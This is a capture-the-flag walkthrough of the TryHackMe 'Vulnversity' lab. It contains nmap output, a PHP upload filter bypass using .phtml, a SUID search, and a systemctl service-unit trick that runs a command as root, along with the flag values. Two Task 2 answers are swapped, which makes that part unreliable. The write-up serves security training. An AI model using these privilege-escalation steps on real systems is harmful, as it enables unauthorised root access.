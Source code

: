 # TryhackMe - Vulnversity [10.10.118.91]
## TASK1 - Deploy the machine
## TASK2 - Reconnaissance
+ There are many Nmap "cheatsheets" online that you can use too.`No Answer Needed`
+ Scan the box; how many ports are open?`6`
    ```bash
    hengkisirait: task4 $ nmap -sV 10.10.118.91
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-28 08:51 WIB
    Nmap scan report for 10.10.118.91
    Host is up (0.36s latency).
    Not shown: 994 closed tcp ports (conn-refused)
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 3.0.3
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    3128/tcp open  http-proxy  Squid http proxy 3.5.12
    3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
    Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 115.06 seconds
    ```
+ What version of the squid proxy is running on the machine?`3.5.12`
+ How many ports will Nmap scan if the flag -p-400 was used?`Ubuntu`
+ What is the most likely operating system this machine is running?`400`
+ What port is the web server running on?`3333`
+ What is the flag for enabling verbose mode using Nmap?`-v`

## Task 3  Locating directories using Gobuster
+ What is the directory that has an upload form page?`/internal/`

## Task 4  Compromise the Webserver

+ What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.`.php`
+ Run this attack, what extension is allowed?`.phtml`
+ What is the name of the user who manages the webserver?`bill`
+ What is the user flag?`8bd7992fbe8a6ad22a63361004cfcedb`

## Task 5  Privilege Escalation
+ On the system, search for all SUID files. Which file stands out?`/bin/systemctl`
    ```bash
    find / -user root -perm -4000 -exec ls -ldb {} \;
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
    -rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
    -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
    -rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
    -rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
    ```
+ Become root and get the last flag (/root/root.txt)`a58ff8579f0a9270368d33a9966c7fd5`
    ```bash
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "cat /root/root.txt >> /tmp/flag"
    [Install]
    WantedBy=multi-user.target' > $TF
    systemctl link $TF
    systemctl enable --now $TF
    ```


